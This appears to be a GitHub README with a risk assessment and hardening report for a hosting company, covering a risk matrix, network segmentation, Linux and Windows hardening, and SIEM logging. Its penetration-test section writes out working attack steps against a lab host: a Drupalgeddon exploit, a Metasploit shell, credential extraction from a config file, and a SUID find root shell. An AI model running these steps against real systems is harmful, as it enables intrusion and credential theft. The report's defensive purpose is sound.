# CodeSecure Infrastructure: Cybersecurity Risk Assessment & Infrastructure Defense Report

[](https://github.com)
[](https://github.com)
[](https://github.com)
[](https://github.com)
[](https://github.com)
[](https://github.com)

---

## 📌 Executive Summary & Project Framing

This repository contains the master **Cybersecurity Risk Assessment, Vulnerability Audit, and Defense-in-Depth Implementation Report SUMMARY** delivered for **CodeSecure, Lda.**, a software development and cloud hosting provider (~40 employees). 

CodeSecure operates an internal enterprise network alongside a private datacenter hosting **120 production client websites** and **14 dedicated virtual machines**. Facing elevated exposure from public web services and stringent compliance mandates (e.g., GDPR), this assessment documents the complete transition from an unpatched, flat network infrastructure to a hardened, segmented, and continuously monitored **Defense-in-Depth** security baseline.



### 🏢 Enterprise Scope & Operations Profile
* **Workforce Profile:** ~40 employees structured into four core functional departments:
  1. **Human Resources (HR):** Personnel management, contracts, payroll, confidential employee records.
  2. **Software Development:** Proprietary codebases, staging/testing environments, repository servers.
  3. **Technical Support / Helpdesk:** Customer assistance systems, infrastructure maintenance, remote management.
  4. **Infrastructure & Datacenter Operations:** Production web servers, core switches, SIEM, and monitoring nodes.
* **Hosting Surface:** 120 external client websites and 14 dedicated client VMs hosted in the private datacenter.
* **Core Requirement:** Complete network segmentation isolating internal operational traffic, multi-tenant client environments, and public web infrastructure.



---

## 📑 Table of Contents
1. [Full Quantitative Risk Assessment & Threat Matrix (19 Assets)](#1-full-quantitative-risk-assessment--threat-matrix-19-assets)
2. [Network Architecture & Perimeter Defense](#2-network-architecture--perimeter-defense)
3. [Penetration Testing Walkthrough: Target DC-1](#3-penetration-testing-walkthrough-target-dc-1)
4. [Linux Systems Security & Hardening (Debian 13 Baseline)](#4-linux-systems-security--hardening-debian-13-baseline)
5. [Windows Server & Active Directory Identity Hardening](#5-windows-server--active-directory-identity-hardening)
6. [SIEM, Centralized Logging & Active Response Architecture](#6-siem-centralized-logging--active-response-architecture)
7. [Implementation Recommendations Roadmap (Short, Mid, Long-Term)](#7-implementation-recommendations-roadmap-short-mid-long-term)
8. [Lessons Learned & Key Architectural Takeaways](#8-lessons-learned--key-architectural-takeaways)

---

## 1. Full Quantitative Risk Assessment & Threat Matrix (19 Assets)

A quantitative risk assessment was conducted across all 19 critical infrastructure assets at CodeSecure. Risk scores were calculated using the standard risk matrix formula:
$$\text{Risk Score} = \text{Likelihood (1--5)} \times \text{Impact (1--5)}$$

* **High/Critical Risk (Score $\ge 20$):** Immediate action required; priority defensive controls applied.
* **Medium Risk ($10 \le \text{Score} \le 15$):** Scheduled remediation within operational maintenance windows.
* **Low Risk (Score $\le 8$):** Accepted risk with continuous audit monitoring.



### 📋 Complete 19-Asset Risk Assessment Table

| Asset # | Asset Name | Risk Description | Threat Vector | Likelihood | Impact | Risk Score | Mitigation Strategy |
| :---: | :--- | :--- | :---: | :---: | :---: | :---: | :--- |
| **1** | **Access Credentials** | Theft, credential harvesting, administrative compromise | Internal & External | 5 | 5 | **25 (High/Critical)** | Mandatory password rotation GPOs, SSH key-only auth, PAM, MFA enforcement |
| **2** | **Production Servers** | Ransomware, zero-day exploits, DoS attacks | Internal & External | 4 | 5 | **20 (High)** | Automated patching, Wazuh EDR, strict UFW firewalls, offsite backups |
| **3** | **Public Exposed Server (DC-1)** | Unauthenticated RCE, web exploit, code injection | External | 5 | 4 | **20 (High)** | Nginx Reverse Proxy, ModSecurity WAF, OS replacement (Debian 13) |
| **4** | **Hosted Websites (120 Sites)** | XSS, SQLi, LFI, RCE via CMS vulnerabilities | External | 5 | 4 | **20 (High)** | ModSecurity WAF with OWASP CRS, pentesting, automated CMS update scripts |
| **5** | **External Client Data (GDPR)** | Unauthorized access, data exfiltration, regulatory fines | Internal & External | 4 | 5 | **20 (High)** | Data encryption at rest & in transit, granular RBAC, GDPR compliance controls |
| **6** | **Internal Network** | Lateral movement, packet sniffing, ARP spoofing | Internal | 4 | 5 | **20 (High)** | VLAN segmentation, Layer 3 ACLs, Dynamic ARP Inspection (DAI), DHCP Snooping |
| **7** | **Web Hosting Servers** | Web service exploitation, CMS zero-days | External | 5 | 4 | **20 (High)** | Minimal OS footprint, WAF filtering, automated security patching, VLAN isolation |
| **8** | **Datacenter Facility** | Unauthorized physical access, physical tampering | Internal & External | 3 | 5 | **15 (Medium)** | Biometric access control, 24/7 video surveillance, environmental monitoring |
| **9** | **Production Databases** | SQL Injection exfiltration, ransomware, unauthorized access | Internal & External | 3 | 5 | **15 (Medium)** | Strict RBAC, database field encryption, query auditing, isolated DMZ VLAN |
| **10** | **External Client VM Data** | Client data modification or exfiltration | Internal & External | 3 | 4 | **12 (Medium)** | Storage volume encryption, hypervisor access logging, automated VM snapshots |
| **11** | **Client Virtual Machines (14 VMs)** | Vulnerability exploitation pivoting to adjacent hypervisors | External | 3 | 4 | **12 (Medium)** | Dedicated client VLANs, inter-VM firewall rules, Wazuh IDS/IPS agent monitoring |
| **12** | **Core Infrastructure** | Switch/firewall firmware exploits, unauthorized config changes | Internal & External | 3 | 4 | **12 (Medium)** | Centralized AAA (RADIUS/TACACS+), SNMPv3 with AES, Port Security |
| **13** | **Employee Workstations** | Malware infection, email phishing, credential harvesting | Internal & External | 4 | 3 | **12 (Medium)** | Defender Endpoint Protection, %APPDATA% block policy, phishing training |
| **14** | **Server & Workstation OS** | Unpatched OS vulnerabilities, insecure default settings | External | 3 | 4 | **12 (Medium)** | Minimal OS baseline (Debian 13), automated update schedule, auditd logging |
| **15** | **System Configurations** | Unauthorized configuration drift, malicious tweaks | Internal | 3 | 4 | **12 (Medium)** | Centralized GPO/Ansible management, File Integrity Monitoring (FIM) |
| **16** | **Internal Source Code** | Source code theft, reverse engineering, backdoor insertion | Internal | 2 | 4 | **8 (Low)** | Isolated Development VLAN 10, mandatory peer code reviews, SSH key access |
| **17** | **Internal Business Records** | Data exfiltration via malware or unauthorized internal sharing | Internal | 2 | 4 | **8 (Low)** | Information classification, department Homefolders with strict ACLs, encrypted backups |
| **18** | **Human Resources Records** | Spear-phishing, unauthorized access to payroll records | Internal | 2 | 4 | **8 (Low)** | Dedicated HR VLAN 20, strict AD permissions, data encryption at rest |
| **19** | **System Audit Logs** | Log tampering or deletion by attackers covering tracks | Internal | 2 | 4 | **8 (Low)** | Centralized Rsyslog server, Wazuh SIEM forwarding, append-only audit files |

---

## 2. Network Architecture & Perimeter Defense

The redesigned network architecture adheres strictly to **Defense-in-Depth**. Perimetric enforcement ensures that any breach in an external-facing node remains strictly isolated, preventing lateral movement toward core databases or domain controllers.



### 🛡️ Layered Network Hardening Summary

1. **VLAN Segmentation Scheme:**
   * **DMZ (VLAN 80 Frontend / VLAN 70 Backend):** Public web services and Nginx Reverse Proxy.
   * **Development (VLAN 10):** Isolated developer workstations, staging servers, repository nodes.
   * **Human Resources (VLAN 20):** High-confidentiality segment enforcing strict departmental ACLs.
   * **Helpdesk (VLAN 30):** Support workstations separated from production infrastructure.
   * **Datacenter & Management (VLAN 99):** Core Domain Controllers, Wazuh SIEM, Rsyslog server, switches.

2. **Perimeter Firewall & NAT Controls (pfSense):**
   * Default-deny policy on all WAN/LAN interfaces.
   * **Destination NAT (DNAT):** Inbound HTTP (80) and HTTPS (443) traffic is forwarded exclusively to the Nginx Reverse Proxy in the DMZ. Direct public exposure of internal application servers is eliminated.

3. **Switch Port & Layer 2 Security:**
   * **Switchport Port Security:** Enforces sticky MAC address limits per access port (`switchport port-security maximum 1`).
   * **Unused Port Shutdown:** All unassigned switch ports are explicitly disabled (`shutdown`) and placed in a dead-end VLAN.
   * **DHCP Snooping & Dynamic ARP Inspection (DAI):** Mitigates rogue DHCP insertion and ARP poisoning by validating ARP packets against the DHCP binding database.
   * **Default Gateway Redundancy:** High Availability HSRP configured across core distribution switches.
   * **Centralized AAA:** Administrative switch access controlled via FreeRADIUS with mandatory SSHv2 encryption.
   * **VPN for remote access:** Implemented VPN IpSec or SSL for remote access.
   * **Use ZTNA Twingate connector - Safer alternative to VPN remote access**

     


---

## 3. Penetration Testing Walkthrough: Target DC-1

To demonstrate the critical risk posed by legacy infrastructure, a controlled penetration test was executed against target host **DC-1** (`192.168.1.26`).



### 🔍 Attack Execution & Escalation Sequence

1. **Reconnaissance & Service Scanning:**
   ```bash
   nmap -sn 192.168.1.0/24
   nmap -sS -sV -sC -O -p- 192.168.1.26
   ```
   * *Discovered Services:* `22/tcp` (OpenSSH 6.0p1 Debian), `80/tcp` (Apache 2.2.22, Drupal 7), `111/tcp` (RPCbind).
   * *OS Identification:* Outdated Linux Kernel 3.2 (Debian 7 Wheezy).

2. **Web Vulnerability Identification:**
   ```bash
   nmap --script http-enum,http-vuln* -p 80 192.168.1.26
   searchsploit drupal 7.0
   ```
   * *Vulnerability Confirmed:* **CVE-2014-3704 (Drupalgeddon SQL Injection)**.

3. **Initial Access & SQL Injection Exploitation:**
   ```bash
   python2 34992.py -t http://192.168.1.26 -u cesae -p cesae123
   ```
   * *Result:* Injected an administrative user (`cesae:cesae123`) directly into the Drupal MySQL database.

4. **Metasploit Shell Establishment:**
   ```bash
   msfconsole -q
   use exploit/unix/webapp/drupal_drupalgeddon2
   set RHOSTS 192.168.1.26
   exploit
   ```
   * *Result:* Established a Meterpreter shell under account `www-data` (`uid=33`).

5. **Post-Exploitation & Credential Harvesting:**
   ```bash
   cat /var/www/sites/default/settings.php
   ```
   * *Result:* Extracted plain-text database credentials (`drupaldb` / `dbuser:dbpass`). Dumped user password hashes from `users` table and extracted system users from `/etc/passwd`.

6. **Privilege Escalation to Root:**
   ```bash
   find / -perm -4000 -type f 2>/dev/null
   ```
   * *Discovered Binary:* `/usr/bin/find` configured with an improper SUID bit owned by `root`.
   * *Exploitation (GTFOBins):*
     ```bash
     find . -exec /bin/sh \; -quit
     ```
   * *Outcome:* Complete system compromise (`uid=0(root)`).



### 🎯 MITRE ATT&CK TTP Mapping Table

| Phase | MITRE ATT&CK Tactic | Technique ID | Technique Description | Attack Artifact |
| :--- | :--- | :--- | :--- | :--- |
| **Reconnaissance** | Reconnaissance | `T1595.002` | Vulnerability Scanning | Nmap port scan & `http-vuln` scripts |
| **Initial Access** | Initial Access | `T1190` | Exploit Public-Facing Application | SQL Injection via CVE-2014-3704 |
| **Persistence** | Persistence | `T1136.001` | Create Account: Local Account | Injected admin user `cesae` into database |
| **Execution** | Execution | `T1059.006` | Python / PHP Command Execution | Metasploit PHP payload execution |
| **Credential Access** | Credential Access | `T1552.001` | Credentials In Files | Plain-text DB credentials in `settings.php` |
| **Privilege Escalation**| Privilege Escalation | `T1548.001` | Setuid and Setgid Abuse | Abused `/usr/bin/find` SUID bit for root shell |

---

## 4. Linux Systems Security & Hardening (Debian 13 Baseline)

To replace vulnerable legacy OS instances, all Linux virtual machines were redeployed using a minimal **Debian 13 (Trixie)** baseline installation.



### 🛠️ Key Linux Hardening Implementations

1. **Minimal Install & Automatic Updates:**
   * Package selection restricted strictly to `standard system utilities` to minimize attack surface.
   * `unattended-upgrades` configured with a 12-hour delayed window to verify patch stability prior to deployment.

2. **SSH Service Hardening (`/etc/ssh/sshd_config`):**
   * Default port changed to `2222`.
   * `PermitRootLogin no`
   * `PasswordAuthentication no` (SSH key-based authentication only).
   * Group-restricted login allowed only for authorized system administrators.

3. **Host Firewall & Brute-Force Protection:**
   * **UFW Policy:** Default deny incoming, default allow outgoing. Open ports restricted to specific role needs (e.g., `2222/tcp`, `80/tcp`, `443/tcp`).
   * **Fail2ban:** Configured to monitor SSH logs and block IP addresses failing 6 consecutive login attempts for 1 hour.

4. **Auditing & Mandatory Access Control:**
   * **auditd:** Enforces immutable logging for changes to critical files (`/etc/passwd`, `/etc/shadow`, `/etc/sudoers`) and logs all `sudo` invocations.
   * **AppArmor:** Mandatory Access Control (MAC) profiles active in `enforce` mode across all network-facing applications.

5. **Web Application Security (ModSecurity WAF):**
   * Nginx Reverse Proxy integrated with ModSecurity v3 and OWASP Core Rule Set (CRS).
   * Filters HTTP traffic against SQLi, XSS, LFI, and RCE attempt vectors before traffic reaches backend application nodes.
  


---

## 5. Windows Server & Active Directory Identity Hardening

Central identity, authentication, and authorization for the internal network are managed via a hardened **Windows Server Domain Controller**.



### ⚙️ Group Policy Objects (GPO) Configuration Baseline

* **Organizational Unit (OU) Hierarchy:** Dedicated OUs created for `Development`, `HelpDesk`, and `Human Resources`, enabling granular privilege assignment.
* **Password Policy GPO:**
  * Minimum length: **12 characters**.
  * Complexity required: Upper, lower, numeric, and special characters.
  * Maximum age: 60 days; Minimum age: 1 day.
  * History restriction: Remembers last 15 passwords. Reversible encryption disabled.
* **Account Lockout GPO:** Accounts lock for **15 minutes** after 3 consecutive failed login attempts.
* **User Account Control (UAC):** Forced *Admin Approval Mode* (`Run all administrators in Admin Approval Mode`).
* **Software Restriction Policies (SRP):**
  * Default security level set to `Disallowed`.
  * Executable execution explicitly blocked in `%APPDATA%`, `%LOCALAPPDATA%`, and `%TEMP%`.
  * Execution allowed strictly within `C:\Windows` and `C:\Program Files`.
* **Windows Defender & Real-Time Protection:** Enforcement GPO prevents employees from disabling real-time monitoring or cloud antivirus protection.
* **Departmental Homefolders:** Automated drive mapping with NTFS permissions restricting access exclusively to the individual user and Domain Admins.

---

## 6. SIEM, Centralized Logging & Active Response Architecture

Security logging across pfSense, Linux nodes, Windows Server, and Nginx is consolidated into a centralized **SIEM and Log Aggregation Pipeline**.



### 🔄 Centralized Log Pipeline Architecture

1. **Rsyslog Server Aggregation:** Dedicated log server listening on UDP/TCP port `514`. Logs are structured dynamically into directories by originating hostname and application name.
2. **Wazuh SIEM Integration:** Wazuh Manager evaluates host events in real-time. Security alerts with severity $\ge 3$ are forwarded to the Rsyslog server for persistent long-term storage.



### ⚡ Wazuh Active Response Automation Rules

